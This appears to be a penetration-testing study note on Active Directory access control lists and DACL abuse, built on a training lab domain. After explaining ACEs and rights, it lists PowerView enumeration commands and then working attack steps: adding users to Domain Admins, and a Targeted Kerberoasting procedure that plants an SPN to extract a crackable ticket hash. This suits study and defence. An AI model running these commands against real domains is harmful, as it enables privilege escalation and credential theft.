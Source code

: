 ## Summary

### Access Control List (ACL)

Enables control on the ability of a process to access objects and other resources in active directory based on:
– Access Tokens (security context of a process - identity and privs of user)
– Security Descriptors (SID of the owner, Discretionary ACL (DACL) and System ACL (SACL))

### Access Control Entries (ACE) 
It is a list of Access Control Entries (ACE) - ACE corresponds to individual permission or audits access. Who has permission and what can be done on an object?
• Two types:
– DACL - Defines the permissions trustees (a user or group) have on an object.
– SACL - Logs success and failure audit messages when an object is accessed

An Access Control Entry (ACE) is an individual rule within an ACL that defines specific permissions granted or denied to a user or group.

* Each ACE includes:
- The Security Principal (user, group, or computer to which permissions apply).
- The Access Mask (specific permissions such as read, write, delete, etc.).
- The Access Type (Allow or Deny).

Example: Understanding ACEs
An ACE might specify that:
- User Alice has Full Control over an Organizational Unit (OU).
- Group HelpDesk has Read and Write permissions to modify certain user attributes.
- User Bob is explicitly denied the ability to delete an object.

### Managing ACLs and ACEs in Active Directory
Administrators can modify ACLs and ACEs using graphical tools like Active Directory Users and Computers (ADUC) or command-line tools like PowerShell.

Modifying ACLs Using PowerShell
To add an ACE granting a user full control over an object:
```
$acl = Get-Acl "AD:CN=JohnDoe,OU=Users,DC=example,DC=com"
$identity = New-Object System.Security.Principal.NTAccount("example.com\Alice")
$permission = [System.DirectoryServices.ActiveDirectoryRights]::GenericAll
$accessRule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identity, $permission, "Allow")
$acl.AddAccessRule($accessRule)
Set-Acl -Path "AD:CN=JohnDoe,OU=Users,DC=example,DC=com" -AclObject $acl
```
This script grants Alice full control over the user JohnDoe.

### Commands 

Get the ACLs associated with the specified object
* Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Get the ACLs associated with the specified prefix to be used for search
* Get-DomainObjectAcl -SearchBase "LDAP://CN=DomainAdmins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose

Get the ACLs associated for Domain Admins
* Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose

Analyze Trust Relationships (Displays trust relationships between domains)
* Get-NetDomainTrust

Check ACLs on AD Objects  (Shows ACLs for a specific user account, resolving GUIDs to human-readable names)
* Get-ObjectAcl -SamAccountName "Administrator" -ResolveGUIDs

Search for interesting ACEs
* Find-InterestingDomainAcl -ResolveGUIDs

Get ACLs where studentx has interesting permissions
* Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student867"}

Get the ACLs associated with the specified path
* Get-PathAcl -Path "\\dcorp-dc.dollarcorp.moneycorp.local\sysvol"

### DACL abuse

DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access on an object. 

SACLs (Systems Access Control Lists) define the audit and monitoring rules over a securable object.

When misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain.

### Permisssions index

1. WriteDacl: Edit the object's DACL (i.e. "inbound" permissions).
2. GenericAll: Combination of almost all other rights.
3. GenericWrite: Combination of write permissions (Self, WriteProperty) among other things.
4. WriteProperty: Edit one of the object's attributes. The attribute is referenced by an "ObjectType GUID".
5. WriteOwner: Assume the ownership of the object (i.e. new owner of the victim = attacker, cannot be set to another user).With the "SeRestorePrivilege" right it is possible to specify an arbitrary owner.
6. Self: Perform "Validated writes" (i.e. edit an attribute's value and have that value verified and validate by AD). The "Validated writes" is referenced by an "ObjectType GUID".
7. AllExtendedRights: Peform "Extended rights". "AllExtendedRights" refers to that permission being unrestricted. This right can be restricted by specifying the extended right in the "ObjectType GUID".
8. User-Force-Change-Password: Change the password of the object without having to know the previous one.
9. DS-Replication-Get-Changes: One of the two extended rights needed to operate a DCSync.
10. DS-Replication-Get-Changes-All: One of the two extended rights needed to operate a DCSync.
11. Self-Membership: Edit the "member" attribute of the object.
12. Validated-SPN: Edit the "servicePrincipalName" attribute of the object.


### AddMember
This abuse can be carried out when controlling an object that has a GenericAll, GenericWrite, Self, AllExtendedRights or Self-Membership, over the target group.
The attacker can add a user/group/computer to a group.

**Windows**
* net group 'Domain Admins' 'user' /add /domain

Powershell: Active Directory module
* Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

Powershell: PowerSploit module
* Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'


**Linux**

With net and cleartext credentials (will be prompted)
* net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

With net and cleartext credentials
* net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

### ForceChangePassword
This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

### Targeted Kerberoasting
This abuse can be carried out when controlling an object that has a GenericAll, GenericWrite, WriteProperty or Validated-SPN over the target. A member of the Account Operator group usually has those permissions.

The attacker can add an SPN (ServicePrincipalName) to that account. Once the account has an SPN, it becomes vulnerable to Kerberoasting. This technique is called Targeted Kerberoasting.

1. Make sur that the target account has no SPN
* Get-DomainUser 'victimuser' | Select serviceprincipalname

2. Set the SPN
* Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

3. Obtain a kerberoast hash
* $User = Get-DomainUser 'victimuser'
* $User | Get-DomainSPNTicket | fl

4. Clear the SPNs of the target account
* $User | Select serviceprincipalname
* Set-DomainObject -Identity victimuser -Clear serviceprincipalname
